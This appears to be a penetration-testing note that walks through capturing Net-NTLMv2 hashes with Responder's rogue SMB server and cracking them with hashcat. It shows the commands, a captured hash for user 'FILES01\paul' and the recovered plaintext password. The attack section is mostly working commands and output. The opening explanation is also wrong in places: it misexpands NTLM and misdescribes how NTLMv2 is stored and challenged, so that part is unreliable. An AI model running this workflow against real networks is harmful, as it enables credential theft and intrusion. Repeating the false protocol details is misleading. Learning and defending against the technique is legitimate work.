 # NTLMv2

New Technology Network Manager v2 is, you guessed it, the updated (and more widely used) version of NTLM. It is stored as **HMAC-MD5** hash in SAM.

NTLMv2's challenge is a timestamp rather than a randomly generated number (NTLM), the timestamp is hashed with the users password and is sent as the response.



## Responder

The responder tool includes a built-in SMB server that handles the authentication process for us and prints all captured Net-NTLMv2 hashes.

{% embed url="https://www.kali.org/tools/responder/" %}

### Start Responder

```
kali@kali:~$ sudo responder -I tap0 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
...
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
...
[+] Listening for events... 
```



### Capturing NTLMv2 Hash

```
...
[+] Listening for events... 
[SMB] NTLMv2-SSP Client   : ::ffff:192.168.50.211
[SMB] NTLMv2-SSP Username : FILES01\paul
[SMB] NTLMv2-SSP Hash     : paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:
010100000000000000B050CD1777D801B7585DF5719A
CFBA0000000002000800360057004D00520001001E00570049004E002D00340
044004E004800550058004300340054004900430004003400570049004E002D
00340044004E00480055005800430034005400490043002E00360057004D005
2002E004C004F00430041004C0003001400360057004D0052002E004C004F00
430041004C0005001400360057004D0052002E004C004F00430041004C00070
0080000B050CD1777D801060004000200000008003000300000000000000...
```



### Cracking with Hashcat

We'll save the output of reponder and use Hashcat with our wordlist to crack the NTLMv2 hash.

```
kali@kali:~$ hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.5) starting
...

PAUL::FILES01:1f9d4c51f6e...00000000000000:123Password123
...
```

